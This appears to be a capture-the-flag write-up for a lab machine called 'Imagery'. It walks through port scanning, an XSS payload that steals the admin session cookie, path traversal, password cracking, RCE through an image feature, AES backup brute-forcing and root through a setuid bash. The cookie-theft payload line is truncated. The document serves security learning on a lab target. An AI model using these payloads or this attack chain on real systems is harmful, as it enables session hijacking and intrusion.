


# Imagery


## Port enumeration

First thing I did was scaning the objetive with nmap.

```bash
nmap -p- --open -T5 -n -vvv -Pn imagery.htb
```

This reveals 2 open ports, 22 and 8000

```
22/tcp    open    ssh        syn-act    ttl    63
8000/tcp  open    http-alt   syn-act    ttl    63
```

I scan this two services to reveal more information.

```bash
nmap -p 22,8000 -sCV imagery.htb
```

This reveal that the http service in port 8000 is a python server.


## Web enumeration


The first thing I saw was the page home, here, I can only find 2 functional pages, ```upload```, where i can upload an image in the server, I tried to exploit this page for a wile, but nothing worked.


The other page I found was ```report a bug```, this panel allow me to send a report to the admin, it seems like it can be vulnerable with XSS, so, I test it and I confirmed the vulnerability.


## XSS Explotation

I send a payload who will allow me to steal the admin cookies.

```html
:<myport>/?='+encodeURIComponent(document.cookie)"/>
```

This sends me the session cookie to my python server.


## Admin panel enumeration

With that cookie, I were allowed to log in the page as admin.


As admin, I had access to ```Admin Panel```.


Here, I can see who I can download the logs from 2 users, admin and testuser.

After reading these logs, I didnt found nothing interesting, but, after intercept the http request with  burpsuite, I found a path traversal vulnerability.


## Path traversal explotation

I discovered with /etc/passwd who the 2 users in this machine are web and mark

After a bit, I read the config files, where I found some credentials.


With john the ripper, I was able to obtain the testuser password.


Now, I loged in the machine ad testuser, but, I cant see mayor diferences, so, I read the source code.


And there it is, a RCE, and this feature is only available to testuser.

## RCE exploitation

I just update a image and use the Visual Image Transform feature.


With burpsuite, in injected the code.


And with that, I obtained a shell.


## Local enumeration

After a while i found, in /var/backup, 2 interesting files.



For some reason I found the root flag there — this must be an error — so I continued with the web backup.

## AES brute force

The backup is encrypted with AES, so I needed to find the password by brute force.


I made a python script to attack with dictionary.


Here, I found a oldest version of the app, and, in the database, i found 2 more users and their hashes, web, and mark.


With john, I reveal the mark password.


And, with that, I log as mark with su.


## Privilege scalation

After a short enumeration I discovered that ```/bin/bash``` has the setuid bit set.


I only needed to execute this binary as its owner, and I became root.


